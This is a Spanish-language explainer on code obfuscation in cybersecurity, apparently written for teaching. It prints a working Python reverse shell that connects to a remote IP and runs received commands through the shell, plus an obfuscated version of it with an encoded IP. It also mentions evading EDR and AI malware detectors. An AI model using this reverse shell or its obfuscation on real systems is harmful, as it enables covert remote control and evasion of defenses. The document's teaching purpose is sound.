 # Código Ofuscado en Ciberseguridad

## ¿Qué es?

La **ofuscación de código** es una técnica utilizada para dificultar la lectura, comprensión y análisis de un programa, sin alterar su funcionalidad original. Consiste en transformar el código fuente en una versión compleja, desorganizada o cifrada, pero que aún se ejecuta correctamente.

En el ámbito de la **ciberseguridad en sistemas operativos**, la ofuscación se emplea tanto con fines ofensivos como defensivos:

- **Ofensiva:** Para ocultar el comportamiento de scripts maliciosos, evitar la detección por antivirus, y burlar herramientas de monitoreo.
- **Defensiva:** Para proteger scripts legítimos, algoritmos sensibles o credenciales embebidas frente a ingeniería inversa o manipulación.

En los últimos años, la **inteligencia artificial** ha tomado un papel relevante, ayudando a:

- **Detectar patrones de ofuscación maliciosa.**
- **Clasificar código sospechoso en entornos complejos.**
- **Generar automáticamente variantes de código evasivo en simulaciones de red team.**

---
## Ejemplo Comparativo

A continuación, se presenta un fragmento de código que ejecuta comandos recibidos desde un servidor remoto (*reverse shell*) y su contraparte ofuscada:

### Código original (legible)

```python
import socket
import subprocess

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(("192.168.247.128", 443))
data = client.recv(BUFFER_SIZE)
output = subprocess.check_output(data.decode(), shell=True)
client.send(output)
```

### Código ofuscado
```python
_0x14 = __import__('socket')
_0x15 = __import__('subprocess')
_0x11 = ''.join(chr(ord(c) ^ 0x5A) for c in '...')  # IP cifrada
_0x17 = _0x14.socket(_0x14.AF_INET, _0x14.SOCK_STREAM)
_0x17.connect((_0x11, 443))
_0x22 = _0x17.recv(1024)
_0x24 = _0x15.check_output(_0x22.decode(), shell=True)
_0x17.send(_0x24)
```
---
## Aplicación en Sistemas Operativos

La ofuscación se encuentra frecuentemente en entornos de **Windows o Linux** donde se ejecutan scripts automatizados, herramientas administrativas o implantes remotos. Entre sus usos más comunes están:

- Ocultar payloads en pruebas de penetración o CTFs (Capture The Flag).
- Evasión de EDRs (Endpoint Detection and Response) que monitorean procesos del sistema.
- Implementación de técnicas anti-análisis (anti-debug, anti-reversing) para aumentar la persistencia y el sigilo.
- Retar a los modelos de IA utilizados en detección automática de malware, generando código que evade heurísticas y firmas tradicionales.

Este tipo de técnicas se ha convertido en un desafío para los equipos de blue team, forenses y desarrolladores de sistemas de defensa inteligentes, que deben incorporar IA para identificar no solo *lo que hace* un código, sino *cómo lo hace*.

---

## Conclusión

La ofuscación es una herramienta poderosa en el ecosistema de la ciberseguridad, especialmente en sistemas operativos modernos donde las amenazas evolucionan constantemente.

- Su análisis permite entender cómo se ocultan amenazas reales.
- Su uso en entornos controlados fortalece las capacidades defensivas.
- Obliga a innovar con IA para mantener la ventaja frente a ataques cada vez más complejos.

---
